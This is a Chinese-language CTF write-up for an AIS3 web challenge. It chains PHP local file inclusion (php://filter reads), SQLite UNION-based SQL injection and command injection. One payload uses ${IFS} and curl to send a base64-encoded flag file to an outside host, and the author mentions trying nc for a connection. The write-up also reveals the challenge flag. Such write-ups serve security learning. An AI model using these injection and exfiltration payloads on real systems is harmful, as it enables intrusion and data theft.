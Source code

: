 # Web3
` 這題Writeup不寫，我會對不起我自己 `

## PHP LFI 
先看參數中可以發現有一個module，用 ./modules/api 和 ../html/modules/api 發現都可以  
=> 想到有LFI  
利用LFI將所有網頁拉下來，建立網站架構  
(經典 php://filter/convert.base64-encode/resource=)  
=> 發現config.php => 統神搬火鍋 ...?  

* 原本想說能用傳統的 %00 來截斷include，結果是PHP7.4.19    
* 原本想說include外部php，結果allow_include_url沒開  
## SQLi
後來花了很多時間在SQLi上，構建id的payload  
"""sql
-1 UNION SELECT 'name','tbl_name','type' from sqlite_master;
"""
這裡要注意一個我踩過的坑，就是前面只有選三個column，你也要讓union後面也只有select三個column    
經過整個Database的探勘，發現根本沒flag，所以放棄==  

## CMDi
讓SQLi跟CMDi結合，構建CMDi的payload  
"""sql
-1 UNION SELECT 'Customer',"'${IFS};curl${IFS}x.sivir.pw?$(cat${IFS}/flag_81c015863174cd0c14034cc60767c7f5${IFS}|base64);'",'5900' from sqlite_master;
"""
後來在網路上查到union select好像可以自己搞個Value出來，所以就能夠建CMDi  
"""sql
-1 UNION SELECT 'Value1','Value2','Value3' from sqlite_master;
"""
最後一直搞不定IFS，所以跑去寫Colors了  
但後來在最後10分鐘的時候，我再回來看這一題，構建了payload  
原本要用nc跟T22Server連接，結果發現好像不太行    
就改成在裡面打指令，先ls找一下flag結果找不到 :rage:  
最後去翻 / 才有，就找到flag了  

> 這題真的很機車 = =   

Flag: `AIS3{o1d_skew1_w3b_tr1cks_co11ect10n_:D}`
